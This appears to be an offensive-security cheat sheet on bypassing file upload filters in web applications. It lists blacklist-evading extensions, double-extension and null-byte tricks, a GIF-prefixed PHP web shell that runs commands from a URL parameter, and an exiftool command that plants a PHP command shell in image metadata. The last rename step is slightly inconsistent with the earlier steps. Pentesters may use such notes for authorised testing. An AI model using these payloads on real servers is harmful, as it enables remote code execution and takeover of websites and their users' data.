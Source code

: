 ```yaml
---
description: Use these methods to attempt to bypass file upload restrictions in web servers
---
```


# File Upload

## Blacklist Bypass

Blacklisting is a type of protection where certain strings of data are prohibited from being accepted. In this case, file extensions, will be denied from being accepted to the web server.&#x20;

* These are very easy to bypass
* You can do this by a variety of methods

### Examples

Here are some alternatives to popular extensions that can be used to get around blacklist filters:

```
php.txt, .sh, .pht, .phtml, .phP, .Php, .php7, .php%00.jpeg, .cgi
```

Another extension for web shells are JSP -- this file is a server-generated web page. It is similar to a .ASP or .php file, but it contains Java code instead of Active X or PHP.

```
.MF, .jspx, .jspf, .jsw, .jsv, .xml, .war, .jsp, .aspx
```

## Whitelist Bypass

The other method for bypass is using whitelists. The whitelist is composed of things that the server will ONLY accept.&#x20;

* This may sound like it is more secure, however, there are still ways to get around this

### Examples

<mark style="color:yellow;">False extension bypass</mark>

By using a reverse shell, with a photo extension, an attacker can fool a web app into accepting a php file that also has a JPG/PNG extension:

```
reverse-shell.php.jpg
```

<mark style="color:yellow;">Null character bypass</mark>

We can bypass whitelist filters to make characters get ignored when the file is saved. This will inject a forbidden extension and an allowed extension in which can lead to a bypass:

```
payload.php%00.jpg OR payload.php\x00.jpg
```

<mark style="color:yellow;">GIF bypass</mark>

```
GIF89a; <?php system($_GET['cmd']); ?>
```

## Exif Data Bypass

This method will utilize metadata in an image (using the exiftool), such as the location, name, camera being used, and much more.

* You can modify malicious data to your payload or image using <mark style="color:yellow;">exiftool</mark>

By inserting a short command shell as information into your photo, it could appear something like this:&#x20;

{% code overflow="wrap" %}
```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" pwtoken.jpeg
```
{% endcode %}

* You can then use exiftool to check for the new data in the photo (i.e. exiftool pwtoken.jpeg)

```
$ exiftool pwtoken.jpeg
```

Then, add a shell extension to make it an executable file once in the web app server:

```
$ mv catphoto.jpg catphoto.php\x00.jpghe
```









